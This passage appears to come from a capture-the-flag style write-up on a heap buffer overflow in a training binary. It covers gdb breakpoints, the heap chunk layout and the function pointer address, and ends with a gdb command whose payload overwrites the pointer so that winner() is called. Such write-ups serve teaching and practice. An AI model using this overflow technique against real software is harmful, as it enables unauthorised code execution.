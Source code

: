 
```bash
0x080484a5 <main+25>:	mov    DWORD PTR [esp],0x4
0x080484ac <main+32>:	call   0x8048388 <malloc@plt>
0x080484b1 <main+37>:	mov    DWORD PTR [esp+0x1c],eax
0x080484b5 <main+41>:	mov    edx,0x8048478
0x080484ba <main+46>:	mov    eax,DWORD PTR [esp+0x1c]
0x080484be <main+50>:	mov    DWORD PTR [eax],edx
```

- **Second malloc call (spoiler: for `struct fp *f`):**
  - **0x804a048**: The previous chunk metadata ends here.
  - **0x804a04c**: Metadata (`0x11`), which indicates the size of the new chunk (17 bytes, including metadata). Since `malloc` aligns memory allocations, a minimum allocation size of 16 bytes is expected for a `struct fp` with a single function pointer (4 bytes) + 8 bytes for metadata alignment.
  - **0x804a050**: (will be a) Pointer to `0x08048478` (address of `nowinner()` function), assigned to `f->fp`. Currently it points to nothing `0x804a050=0x08048478`


## Third breakpoint, b *main+81 printf

On the `printf()` call we will getting a message that's gonna help us to pinpoint where the buffer, and function pointer addresses were located, `data is at 0x804a008, fp is at 0x804a050`.


## Fourth breakpoint, b *main+107 strcpy
We are giving exactly 64 bytes, `AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPP`:
![string copy from argv[1] to buffer](./strcpy.png)


## Exploitation
The plan is to give buffer overflow until it hits the `0x804a050=0x08048478` which we know it call a function `nowinner()`, `0x08048478`. We are gonna replace that value with the `winner()` function `0x08048464`. So the simple calculation would be 64 bytes + overwrite the heap metadata 8 bytes + the address of `winner()`=72 bytes of junk + 4 bytes of address of `winner()`. This is the final exploit would looked like in gdb:

```bash
(gdb) r "`/bin/echo -ne "AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPP00001111\x64\x84\x04\x08"`"
```
